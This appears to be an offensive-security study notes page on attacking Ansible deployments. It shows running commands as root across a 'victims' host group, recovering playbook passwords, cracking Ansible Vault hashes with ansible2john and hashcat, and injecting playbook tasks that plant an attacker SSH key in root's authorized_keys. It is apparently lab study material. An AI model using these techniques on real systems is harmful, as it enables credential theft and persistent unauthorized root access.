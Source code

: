 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="color:red">Ansible</span>
#### Commands
Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
&nbsp;
{% include codeHeader.html | highlight shell linenos %}
ansible victims -a "whoami"
{% endhighlight %}
&nbsp;
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
&nbsp;
I.E.
{% highlight yaml linenos %}
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
{% endhighlight %}
&nbsp;
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
&nbsp;
{% highlight yaml linenos %}
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
{% endhighlight %}
&nbsp;
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
&nbsp;
{% highlight shell linenos %}
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
{% endhighlight %}
&nbsp;
to then decrypt the vault like:
&nbsp;
{% highlight shell linenos %}
cat pw.txt | ansible-vault decrypt
{% endhighlight %}
&nbsp;
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
&nbsp;
{% highlight yaml linenos %}
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
{% endhighlight %}
&nbsp;
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)
